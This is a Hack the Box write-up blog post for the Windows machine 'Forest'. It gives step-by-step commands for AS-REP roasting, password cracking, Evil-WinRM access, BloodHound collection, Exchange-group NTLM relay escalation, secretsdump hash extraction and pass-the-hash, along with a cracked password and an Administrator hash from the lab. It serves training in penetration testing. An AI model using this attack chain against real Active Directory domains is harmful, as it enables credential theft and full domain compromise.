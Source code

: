 +++
author = "Nick"
categories = ["hack the box", "RPC", "evil-winrm", "impacket", "ntlm relay", "bloodhound", "pass the hash", "windows", "Powershell"]
date = 2020-03-21T11:26:04Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/forest.png"
slug = "hack-the-box-forest"
summary = "Welcome back everyone. Today we will be doing the Hack the Box machine Forest. The box is listed as an easy Windows box. Let's jump in!"
tags = ["hack the box", "RPC", "evil-winrm", "impacket", "ntlm relay", "bloodhound", "pass the hash", "windows", "Powershell"]
title = "Hack the Box - Forest"

+++


Welcome back everyone. Today we will be doing the Hack the Box machine Forest. The box is listed as an easy Windows box. Let's jump in!

As normal, we kick it off with an ```nmap``` scan: ```nmap -sC -sV -oA initial_scan 10.10.10.161```

Here are our results:
```
Nmap scan report for 10.10.10.161
Host is up (0.15s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-10 14:45:10Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/10%Time=5DEFADE2%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h46m50s, deviation: 4h37m10s, median: 6m48s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2019-12-10T06:47:44-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-10T14:47:41
|_  start_date: 2019-12-10T05:12:53

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 307.76 seconds
```

We initially see ```LDAP```, ```Kerberos``` and ```SMB``` ports available. Let's see what might be shared on ```SMB```. Repeating the scan again with ```-p-``` gives us some additional ports as well. Most notabled ```5985```.

A quick ```SMBMap``` gives us access denied. Next we'll try to gain access via ```RPCclient```: ```rpclient -U "" -N 10.10.10.161```. This gives us access, we can enumerate users this way using ```enumdomusers``` within our connection:

{{< figure src="__GHOST_URL__/content/images/2019/12/rpcclient.gif" >}}

We can take those and paste them into a file called ```users.txt```. Now we want to remove all the junk and essentially keep the usernames. A quick one liner: 

```cat users.txt | cut -d "[" -f2 | cut -d "]" -f1 > trimmed_users.txt```.

Now that we have a list of users. We could try a few things bruteforce, kerberoasting or AS-REP Roast. Lucky for us ```impacket```  gives us the tools to try all of these out. 

At the time of writting this, the current version of ```Impacket``` on Kali is 9.18 which does NOT support userfiles command. You'll need to add a username one at a time. You can also copy the updated script from [here](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) and use that. 

First we'll use ```GetNPUsers.py``` to see if any users have ```DONT_REQ_PREAUTH``` enabled. If we find some, we can use AS-REP to obtain some leverage.

Command:
```./GetNPUsers.py htb/ -userfile trimmed_users.txt -format john -dc-ip 10.10.10.161```

A breakdown of the above command. The ```htb/``` is our domain. ```-usersfile``` is the file we created earlier. ```-format john``` means we want to output our format for easy cracking in ```John```. Lastly, ```-dc-ip``` is our target Domain Controller, in this case, our target.

{{< figure src="__GHOST_URL__/content/images/2019/12/pre_auth.gif" >}}

Now that we have a username and hash, we can crack it in ```John```. We issue ```John --wordlist=/usr/share/wordlists/rockyou.txt vuln_users.txt``` to get the cracking going. Shortly we have a result: ```s3rvice```.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-13.png" >}}

Now that we have a set of credentials, we can look to use those. Our earlier enumeration showed us that we could leverage ```Win-RM``` on port ```5985```. So we'll do just that. We'll use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and start enumerating further.

Command:
```evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'```

{{< figure src="__GHOST_URL__/content/images/2019/12/winrm_user.gif" >}}

Now that we have a shell and we have access to the ```user.txt``` flag. Onto root! We can start enumerating internally. We do the normal groups and user checks with ```systeminfo```, ```net user svc-alfresco``` and ```net group``` to start. Here is a quick link to some enumeration methods for Windows machines: [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#user-enumeration).

We see that there are exchanges groups listed on the system. To better help visualize the path we want to take to domain admin, we can use [```Bloodhound```](https://github.com/BloodHoundAD/BloodHound/wiki/getting-started). If you're a Kali user you can simply ```apt get install Bloodhound```. Otherwise, follow the directions on the Github.

Once installed, we need to leverage SharpHound.ps1 to gain data. We find that script [here](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1). Upload that file via ```Evil-WinRM```. 

Command:
```upload /root/Tools/SharpHound.ps1 C:\Users\svc-alfresco\Documents```

{{< figure src="__GHOST_URL__/content/images/2019/12/image-15.png" >}}

Import the module into our Powershell prompt:

```import-module .\SharpHound.ps1```

Then run ```invoke-bloodhound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice```.

This will compile all sorts of AD data into a zip file for us to download. Once downloaded, upload the data into ```Bloodhound```. We can then filter by 'Highest Value Target' and start narrowing down a path to take based on our previous research.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-14.png" >}}

Based on our above breakdown we can see that we have the ability to write to the ```Exchange Windows Permissions``` group. So we'll want to add ourselves to that group.

Command:
```net group "Exchange Windows Permissions" svc-alfresco /ADD```

Once we are part of that group we can try to escalate our privileges based on [this research](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

So we'll spin up our ```NTLM Relay```:

Command:
```ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco```

Then we can browse to our ip and authenticate with ```svc-afresco``` credentials.

{{< figure src="__GHOST_URL__/content/images/2019/12/ntlm_relayed.gif" >}}

After a few resets on the box and switching from EU to US a few times, it finally worked. We now can dump some secrets.

Command:
```python secretsdump.py htb.local/svc-alfresco@10.10.10.161 -just-dc```

This kicks out a whole bunch of hashes. So our goal is to pass the hash as administrator for a shell.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-18.png" >}}

To do this we'll use ```wmiexec.py```.

Command:
```python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161```

{{< figure src="__GHOST_URL__/content/images/2019/12/root_again.gif" >}}

There we have it, our root shell with flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

